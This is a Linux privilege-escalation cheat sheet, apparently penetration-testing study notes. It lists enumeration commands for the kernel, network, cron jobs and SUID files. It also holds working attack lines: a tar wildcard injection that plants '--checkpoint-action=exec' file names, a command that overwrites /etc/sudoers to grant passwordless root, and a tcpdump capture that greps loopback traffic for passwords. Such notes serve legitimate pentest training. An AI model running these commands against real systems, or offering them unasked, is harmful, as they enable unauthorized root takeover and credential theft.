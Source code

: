 ```shell
uname -r 
uname -a
id
# example:  Ubuntu 16.04.3 LTS (kernel 4.4.0-116-generic) on the x86_64 architecture
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
linux-exploit-suggestor-2019.sh # works great whereas latest one missed some of them

hostnamectl
```
#### Network
```shell
ifconfig / ip a
routel / route
netstat -ano  /  ss -anp
/proc/net/tcp  # use github [proc_net_parser](https://github.com/nikn0laty/proc_net_parser) Tool
resolvectl status # to check for dns settings
nslookup -type=txt domain <dnsserverip>


# Firewall rules 
iptables # requires root perms instead we can read files
/etc/iptables # use by sytem to restore netfilter rules at boot time
cat /etc/iptables/rules.v4


# network traffic but requires sudo for raw socket packet capture
sudo tcpdump -i lo -A | grep "pass"
sudo tcpdump -i <interface> -s 0 -w capture.pcap
```
#### Cronjobs
```shell
/etc/cron.*
crontab -l   # current user cron jobs
crontab -u user -l
sudo crontab -l # gives root user cron jobs
/var/log/cron.log  # logs of running cronjobs
grep "CRON" /var/log/syslog
/var/spool/cron/crontabs/   # all crontabs in one place but sudo requires

ls /etc/cron*
./pspy64

# tar wildcard exploit
echo "" > "--checkpoint-action=exec=sh exploit.sh" 
echo "" > '--checkpoint=1'

# exploit can be revshell or
echo 'kali ALL=(root) NOPASSWD: ALL' > /etc/sudoers
```
#### Misconfigured Permissions
```shell
# FILES
find / -writable -type d 2>/dev/null

# SUID files
find / -perm -u=s -type f 2>/dev/null   #  GTFObins
# SUID or SGID
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

# linux capabilities
/usr/sbin/getcap -r / 2>/dev/null  # cap_setuid+ep

```